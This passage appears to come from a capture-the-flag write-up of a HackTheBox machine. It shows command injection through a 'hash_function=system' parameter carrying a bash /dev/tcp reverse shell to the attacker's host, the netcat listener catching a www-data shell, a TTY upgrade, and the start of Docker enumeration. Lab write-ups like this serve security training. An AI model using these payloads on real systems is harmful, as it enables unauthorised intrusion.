 I'll change `password` to get a reverse shell:



    action=hash&password=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&hash_function=system&debug=1



On sending, a shell comes back:



    oxdf@hacky$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 49100
    bash: cannot set terminal process group (1): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'll use `script` to get a better terminal:



    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ script /dev/null -c bash
    <rlyaccess.htb/dev/actions$ script /dev/null -c bash      
    Script started, file is /dev/null
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ 



## Shell as www-adm on webserver

### Enumeration

#### Docker

It's pretty clear quickly that I'm in a docker container. For one,
there's no `ifconfig` or `ip` commands:



    www-data@webserver:/$ ifconfig
    bash: ifconfig: command not found
    www-data@webserver:/$ ip addr
    bash: ip: command not found



The `/proc/net/fib_trie` file shows that current local IP of 172.18.102:
